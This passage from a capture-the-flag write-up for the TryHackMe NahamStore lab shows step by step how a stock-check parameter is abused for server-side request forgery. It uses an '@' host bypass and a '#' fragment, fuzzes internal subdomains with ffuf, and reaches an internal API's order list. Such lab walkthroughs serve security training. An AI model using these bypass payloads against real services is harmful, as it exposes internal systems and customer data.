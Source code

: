 **What if I point it to localhost?**
```
product_id=1&server=stock.nahamstore.thm@127.0.0.1
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a42.png)

Page not found...

> Note: `@` is a common bypass technique for SSRF.

**Hmm... What if we commented out the appended path via adding `#`?**

```
product_id=1&server=stock.nahamstore.thm@127.0.0.1#
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a43.png)

We're pointed to the home page!

**Now we can try to fuzz internal subdomains via `ffuf`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt -u http://nahamstore.thm/stockcheck -X POST -d 'product_id=1&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#' -t 100
[...]
internal-api
```

- Found internal subdomain: `internal-api`

**We now can go to the `internal-api` internal subdomain:**
```
POST /stockcheck HTTP/1.1
[...]
product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm#
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a44.png)

**And we found an endpoint! `/orders`**

```
POST /stockcheck HTTP/1.1
[...]
product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders#
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a45.png)

```json
[
    {
        "id": "4dbc51716426d49f524e10d4437a5f5a",
        "endpoint": "/orders/4dbc51716426d49f524e10d4437a5f5a"
    },
    {
        "id": "5ae19241b4b55a360e677fdd9084c21c",
        "endpoint": "/orders/5ae19241b4b55a360e677fdd9084c21c"
    },
    {
        "id": "70ac2193c8049fcea7101884fd4ef58e",
        "endpoint": "/orders/70ac2193c8049fcea7101884fd4ef58e"
    }
]
```
